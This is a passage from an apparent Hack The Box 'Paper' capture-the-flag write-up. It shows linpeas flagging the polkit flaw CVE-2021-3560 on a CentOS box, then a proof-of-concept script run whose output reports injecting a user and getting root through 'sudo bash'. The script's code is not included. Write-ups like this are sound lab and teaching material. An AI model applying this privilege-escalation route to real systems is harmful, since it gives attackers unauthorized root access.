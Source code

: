 ```
[dwight@paper ~]$ 

```

# Local enumeration
Using `linpeas.sh` it flags the machine vulnerable to `CVE-2021-3560`  
![](../assets/img/HTB/Machines/paper/Paper_linpeas.png)

The machine was CentOS and accountsservice/polkit were present.  
We prepar and executed a PoC script (`poc.sh`) that automates the primitive described by CVE-2021-3560. 

Running the script shows the typical exploit flow:
```sh

[dwight@paper shm]$ vi poc.sh
[dwight@paper shm]$ chmod +x poc.sh 
[dwight@paper shm]$ ./poc.sh 
[dwight@paper shm]$ ./poc.sh 

[!] Username set as : secnigma
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username secnigma...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username secnigma  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - secnigma
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!

```
